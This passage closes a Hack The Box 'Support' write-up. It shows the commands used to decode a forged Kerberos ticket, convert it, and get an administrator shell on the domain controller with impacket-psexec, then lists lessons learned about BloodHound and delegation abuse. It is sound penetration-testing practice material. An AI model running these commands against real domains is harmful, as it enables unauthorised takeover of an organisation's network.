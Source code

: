 We can copy and paste the last ticket onto our kali machine, but make sure to remove spaces and line breaks. Initially I did this manually, but I'm trying to practice with cut, so I did wind up doing it more quickly with `cat ticket64.spaces | cut -d ' ' -f 7 | tr -d '\n' > ticket64.kirbi`. 

Regardless, once you have the full base64 ticket with no spaces or line breaks, you need to decode it, so for a file called ticket64.kirbi the command is `base64 -d ticket64.kirbi > ticket.kirbi`. 

Then we need to convert it so we can actually use it with impacket. `impacket-ticketConverter ticket.kirbi ticket.ccache`. 

Then we can use it with `impacket-psexec`. The full command in this case is: `KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass`. And we get a shell. 

![Support7.png](/assets/images/Support/Support7.png){: .center-aligned width="600px"}

I grab the root.txt file from `C:\Users\Administrator\Desktop\root.txt`, and we're done. 

### Lessons Learned
I thought this box was pretty difficult. I had some trouble with basically every step of it, and I'm a little surprised that it was rated Easy. But I thought it was good practice for me personally, and now that I've had the practice I might come to find that it's more simple the next time. Much of it is at least relatively straightforward techniques that I simply didn't know to do or how to do. Some of the stuff I learned:
- I used [ILSpy](https://github.com/icsharpcode/ILSpy)to analyze the `UserInfo.exe` binary from the SMB share. I haven't done a lot of reverse engineering because I'm on an ARM machine, and it's a bit more complicated. Dynamic code analysis is out, for example. But it was good to get practice with the tool. 
- After finding the code snippet that contained the hard-coded password, I didn't know what to do with it. I had to use ChatGPT for this, which obviously is not allowed for the OSCP. But it helped me better to understand that we need to define a public class to run the code snippet, and that `Console.WriteLine()` echoes the output to the console. That should be super useful. 
- More experience with bloodhound, namely reinforcing the idea that the `Group Delegated Object Control` button in the analysis page let's us know what the groups the selected user is in can do. 
- Also got some experience checking bloodhound for how to exploit a given permission. In this case it was adding a fake computer to the domain and creating a service ticket for it to impersonate the admin. 